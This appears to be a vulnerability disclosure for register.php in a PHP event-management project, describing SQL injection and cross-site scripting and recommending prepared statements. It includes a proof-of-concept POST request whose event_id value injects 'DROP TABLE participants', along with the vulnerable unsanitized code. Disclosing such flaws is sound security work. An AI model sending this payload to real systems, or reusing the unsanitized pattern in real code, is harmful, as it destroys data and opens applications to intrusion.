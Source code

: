 # Vulnerability Description:

The code in register.php is vulnerable to SQL injection, allowing an attacker to manipulate the SQL query and potentially perform unauthorized actions on the database. Additionally, the code lacks proper input validation and sanitization, making it susceptible to various forms of attacks such as cross-site scripting (XSS) and potential security risks.


## Proof of Concept (PoC):

###SQL Injection:
The vulnerability can be exploited by an attacker by manipulating the input parameters. For example, the event_id parameter is directly used in the SQL query without proper validation or parameterization:

An attacker can manipulate the event_id parameter in the HTTP request to inject malicious SQL code.

PoC:

```
POST /event-management-master/backend/register.php HTTP/1.1
Host: localhost

event_id=1'; DROP TABLE participants; --
```
This could result in a SQL query like:

```
INSERT INTO `participants` (`p_id`,`event_id`, `fullname`, `email`, `mobile`,  `college`, `branch`) 
VALUES (NULL,'1'; DROP TABLE participants; --', 'test', 'test@gmail.com', '0555555555', 'asd', 'qwe')
```

To mitigate this, use prepared statements or parameterized queries to ensure proper sanitization of user inputs.


Vulnerable code section:
```
$event_id = $_POST['event_id'];
$mobile = $_POST['mobile'];
$name = "/^[a-zA-Z ]+$/";
$emailValidation = "/^[_a-z0-9-]+(\.[_a-z0-9-]+)*@[a-z0-9]+(\.[a-z]{2,4})$/";
$number = "/^[0-9]+$/";

...

if(!preg_match($number,$mobile)){
    // Vulnerable to bypass using non-numeric characters
    echo "<div class='alert alert-warning'>
            <a href='#' class='close' data-dismiss='alert' aria-label='close'>&times;</a>
            <b>Mobile number $mobile is not valid</b>
          </div>";
    exit();
}
```


